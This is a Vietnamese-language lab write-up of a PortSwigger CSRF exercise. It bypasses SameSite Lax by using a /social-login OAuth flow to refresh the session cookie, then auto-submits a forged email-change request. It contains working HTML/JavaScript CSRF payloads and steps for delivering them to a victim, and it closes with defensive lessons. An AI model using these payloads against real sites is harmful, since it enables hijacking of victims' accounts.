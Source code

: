 # Write-up: SameSite Lax bypass via cookie refresh

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi cookie phiên không có thuộc tính `SameSite` rõ ràng nhưng hoạt động theo chế độ `Lax` mặc định. Ứng dụng yêu cầu đăng nhập lại qua OAuth sau 2 phút, làm mới cookie phiên thông qua endpoint `/social-login`. Tận dụng hành vi này, sử dụng HTML form và script trong Exploit Server để mở `/social-login` nhằm làm mới cookie, sau đó gửi yêu cầu POST giả mạo để thay đổi email của nạn nhân, bypass hạn chế `SameSite Lax`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách sử dụng endpoint `/social-login` để làm mới cookie phiên, bypass hạn chế `SameSite Lax`, gửi yêu cầu POST giả mạo đến `/my-account/change-email` từ Exploit Server, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account` để thay đổi email
    ![email](./images/1_update_email.png)
- **Quan sát**:
    - Response header `Set-Cookie` không chứa thuộc tính `SameSite`, gợi ý cookie hoạt động theo chế độ `Lax` mặc định.
    - Yêu cầu POST không yêu cầu `csrf token`, cho thấy không có cơ chế CSRF token bảo vệ:

- Kiểm tra endpoint `/oauth-callback?code=[...]` sau khi đăng nhập qua OAuth:
    ![oauth](./images/2_oauth.png)
    - **Quan sát**: Response không có thuộc tính `SameSite` trong `Set-Cookie`, xác nhận cookie phiên có thể được gửi trong các yêu cầu cross-site nhất định:

2. **Kiểm tra hành vi ứng dụng**
- Tạo payload `CSRF` để kiểm tra hành vi ứng dụng và đưa vào Exploit Server 
    ```html
    <html>
      <body>
        <form action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email" method="POST">
          <input type="hidden" name="email" value="2222@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
- Store và view exploit trong Exploit Server.
- Quan sát:
    - Nếu thực hiện trong vòng 2 phút sau khi đăng nhập, yêu cầu POST thành công, email được đổi, do cookie phiên được gửi kèm (phù hợp với SameSite Lax trong top-level navigation).
    - Sau 2 phút, ứng dụng yêu cầu đăng nhập lại qua OAuth, chuyển hướng đến `/social-login`, làm mới cookie phiên:
      ![login](./images/3_not_fail.png)

- **Kết luận**: Có thể làm mới cookie phiên bằng cách truy cập `/social-login` trước khi gửi yêu cầu POST, bypass hạn chế `SameSite Lax`.

3. **Khai thác (Exploitation)**
- Tạo payload CSRF để bypass `SameSite Lax` và đưa vào Exploit Server:
    ```html
    <html>
      <body>
        <form method="POST" action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="pwn@peter.com">
        </form>
        <script>
          window.open('https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
          function changeEmail(){
            document.forms[0].submit();
          }
        </script>
      </body>
    </html>
    ```
- Store và view exploit để kiểm tra:
    - Script mở `/social-login` bằng `window.open`, kích hoạt OAuth flow để làm mới cookie phiên.
    - Sau 5 giây (`setTimeout`), form tự động gửi yêu cầu POST đến `/my-account/change-email`, thay đổi email thành `pwn@peter.com`.
    - **Kết quả**: Yêu cầu thành công do cookie mới được gửi kèm trong top-level navigation:
        ![new](./images/4_confirm_change_email.png)

- Tạo payload cuối cùng cho nạn nhân:
    ```html
    <html>
      <body>
        <form method="POST" action="https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="wiener@peter.com">
        </form>
        <script>
          window.open('https://0a5f0038046ff4fa814e66e700c800bc.web-security-academy.net/social-login');
          setTimeout(changeEmail, 5000);
          function changeEmail(){
            document.forms[0].submit();
          }
        </script>
      </body>
    </html>
    ```

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, script mở `/social-login`, làm mới cookie phiên qua OAuth. Sau 5 giây, form gửi yêu cầu POST, thay đổi email thành `wiener@peter.com` và hoàn thành lab.
        ![solved](./images/5_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách làm mới cookie phiên qua endpoint `/social-login`, bypass hạn chế `SameSite Lax` để gửi yêu cầu POST giả mạo trong top-level navigation.
- Nhận thức tầm quan trọng của việc triển khai thuộc tính `SameSite=Strict` cho cookie phiên, sử dụng CSRF token, và hạn chế các endpoint làm mới cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF bằng cách làm mới cookie phiên để bypass hạn chế `SameSite Lax`, nhấn mạnh tầm quan trọng của việc cấu hình `SameSite=Strict`, sử dụng CSRF token, và bảo vệ các endpoint làm mới cookie. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*
